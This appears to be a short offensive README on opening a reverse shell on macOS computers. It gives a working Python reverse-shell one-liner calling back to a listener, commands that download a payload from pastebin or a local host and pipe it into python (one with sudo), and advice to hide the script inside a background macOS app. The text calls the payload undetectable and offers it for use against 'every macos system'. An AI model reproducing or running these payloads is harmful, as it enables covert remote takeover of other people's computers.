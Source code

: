 Netcat & Payload:

Option 1:

Create an indetectable payload in python and use it to get a shell on every macos system:

	nc -l -p 8080 (listening on kali)

Create a python payload:

	nano payload.py (and paste the script changing the ip)
	
	import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.2.3.4",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);

Then, just have to execute that script on macos computer.

Option 2:

An other option is to send the script online with a pastebin web service:

	https://pastebin.com

And execute this command on the macos computer:

	curl https://pastebin.com/raw/TAM2q3rW | python &

Option 3:

Execute file from computer on same network.

	sudo curl http://192.168.0.110/reverse_tcp.py | sudo  python &

Or copy all necessary files on the computer you attack and execute it.

	curl http://192.168.0.110/reverse_tcp.py > /tmp/reverse_tcp.py
	sudo python /tmp/reverse_tcp.py

Option 4:

Create a MacOs application to run the script on background with platypus:

	https://sveinbjorn.org/platypus
